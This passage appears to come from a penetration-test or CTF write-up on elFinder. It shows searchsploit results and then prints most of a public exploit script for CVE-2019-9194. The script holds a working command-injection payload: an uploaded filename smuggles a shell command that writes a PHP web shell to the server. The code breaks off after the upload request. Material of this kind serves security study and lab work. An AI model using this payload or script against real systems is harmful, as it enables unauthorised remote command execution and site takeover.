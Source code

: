`searchsploit elfinder`:
```
------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                |  Path
------------------------------------------------------------------------------ ---------------------------------
elFinder 2 - Remote Command Execution (via File Creation)                     | php/webapps/36925.py
elFinder 2.1.47 - 'PHP connector' Command Injection                           | php/webapps/46481.py ←
elFinder PHP Connector < 2.1.48 - 'exiftran' Command Injection (Metasploit)   | php/remote/46539.rb ←
elFinder Web file manager Version - 2.1.53 Remote Command Execution           | php/webapps/51864.txt
------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

`cat /usr/share/exploitdb/exploits/php/webapps/46481.py`:
```python
#!/usr/bin/python

'''
# Exploit Title: elFinder <= 2.1.47 - Command Injection vulnerability in the PHP connector.
# Date: 26/02/2019
# Exploit Author: @q3rv0
# Vulnerability reported by: Thomas Chauchefoin
# Google Dork: intitle:"elFinder 2.1.x"
# Vendor Homepage: https://studio-42.github.io/elFinder/
# Software Link: https://github.com/Studio-42/elFinder/archive/2.1.47.tar.gz
# Version: <= 2.1.47
# Tested on: Linux 64bit + Python2.7
# PoC: https://www.secsignal.org/news/cve-2019-9194-triggering-and-exploiting-a-1-day-vulnerability/
# CVE: CVE-2019-9194

# Usage: python exploit.py [URL]

'''

import requests
import json
import sys

payload = 'SecSignal.jpg;echo 3c3f7068702073797374656d28245f4745545b2263225d293b203f3e0a | xxd -r -p > SecSignal.php;echo SecSignal.jpg'

def usage():
    if len(sys.argv) != 2:
        print "Usage: python exploit.py [URL]"
        sys.exit(0)

def upload(url, payload):
    files = {'upload[]': (payload, open('SecSignal.jpg', 'rb'))}
    data = {
        "reqid": "1693222c439f4",
        "cmd": "upload",
        "target": "l1_Lw",
        "mtime[]": "1497726174"
    }

    r = requests.post("%s/php/connector.minimal.php" % url, files=files, data=data)
    j = json.loads(r.text)
```
